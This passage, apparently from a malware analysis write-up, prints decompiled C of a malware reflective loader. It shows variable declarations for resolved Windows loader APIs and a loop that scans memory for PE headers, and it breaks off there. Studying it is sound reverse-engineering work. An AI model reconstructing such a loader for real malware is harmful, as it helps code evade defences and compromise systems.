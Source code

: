 > 
> Step 5: call image entry point
```c
void (__stdcall *__stdcall mw_reflectiveLoader(int arg_param))(unsigned int, int, int)
{
  _BYTE *v4; // [esp+8h] [ebp-78h]
  int v5; // [esp+Ch] [ebp-74h]
  int v6; // [esp+10h] [ebp-70h]
  _IMAGE_DOS_HEADER *i; // [esp+14h] [ebp-6Ch]
  _IMAGE_DOS_HEADER *pe_file; // [esp+14h] [ebp-6Ch]
  _IMAGE_DOS_HEADER *pe_filea; // [esp+14h] [ebp-6Ch]
  void *v10; // [esp+18h] [ebp-68h]
  unsigned int m; // [esp+1Ch] [ebp-64h]
  unsigned int ii; // [esp+1Ch] [ebp-64h]
  _DWORD *v13; // [esp+20h] [ebp-60h]
  char NumberOfSymbols; // [esp+27h] [ebp-59h]
  int (__stdcall *f_LoadLibraryExA)(_IMAGE_DOS_HEADER *, _DWORD, int); // [esp+28h] [ebp-58h]
  __int16 Blink; // [esp+2Ch] [ebp-54h]
  __int16 v17; // [esp+2Ch] [ebp-54h]
  struct _LIST_ENTRY *Flink; // [esp+30h] [ebp-50h]
  void *v19; // [esp+30h] [ebp-50h]
  unsigned int v20; // [esp+30h] [ebp-50h]
  _DWORD *v21; // [esp+34h] [ebp-4Ch]
  _IMAGE_NT_HEADERS *v22; // [esp+34h] [ebp-4Ch]
  unsigned __int16 *v23; // [esp+38h] [ebp-48h]
  unsigned int v24; // [esp+3Ch] [ebp-44h]
  PPEB_LDR_DATA Ldr; // [esp+40h] [ebp-40h]
  unsigned int new_base_addr; // [esp+40h] [ebp-40h]
  int (__stdcall *f_GetProcAddress)(int, unsigned int); // [esp+44h] [ebp-3Ch]
  unsigned int v28; // [esp+48h] [ebp-38h]
  struct _LIST_ENTRY *j; // [esp+4Ch] [ebp-34h]
  unsigned int SizeOfHeaders; // [esp+4Ch] [ebp-34h]
  _DWORD *v31; // [esp+4Ch] [ebp-34h]
  _DWORD *n; // [esp+4Ch] [ebp-34h]
  unsigned int v33; // [esp+4Ch] [ebp-34h]
  void (__stdcall *dll_entry_point)(unsigned int, int, int); // [esp+4Ch] [ebp-34h]
  int NumberOfSections; // [esp+50h] [ebp-30h]
  int (__stdcall *f_VirtualAlloc)(_DWORD, DWORD, int, int); // [esp+54h] [ebp-2Ch]
  int (__stdcall *f_GetModuleHandleA)(_IMAGE_DOS_HEADER *); // [esp+5Ch] [ebp-24h]
  _DWORD *v38; // [esp+60h] [ebp-20h]
  unsigned int v39; // [esp+64h] [ebp-1Ch]
  int *v40; // [esp+64h] [ebp-1Ch]
  _WORD *jj; // [esp+64h] [ebp-1Ch]
  int (__stdcall *f_LoadLibraryA)(void *); // [esp+68h] [ebp-18h]
  void (__stdcall *f_VirtualProtect)(unsigned int, DWORD, int, char *); // [esp+6Ch] [ebp-14h]
  int perm; // [esp+70h] [ebp-10h]
  unsigned int e_lfanew; // [esp+74h] [ebp-Ch]
  _IMAGE_NT_HEADERS *v46; // [esp+74h] [ebp-Ch]
  char oldProtect[4]; // [esp+78h] [ebp-8h] BYREF
  unsigned int k; // [esp+7Ch] [ebp-4h]

  v28 = 0;
  v24 = 0;
  for ( i = (_IMAGE_DOS_HEADER *)&loc_10047170; ; i = (_IMAGE_DOS_HEADER *)((char *)i + 0xFFFFFFFF) )
  {
    if ( i->e_magic == 0x5A4D )
    {
      e_lfanew = i->e_lfanew;
      if ( e_lfanew >= 64 && e_lfanew < 1024 && *(_DWORD *)((char *)&i->e_magic + e_lfanew) == 0x4550 )
        break;
    }
  }
```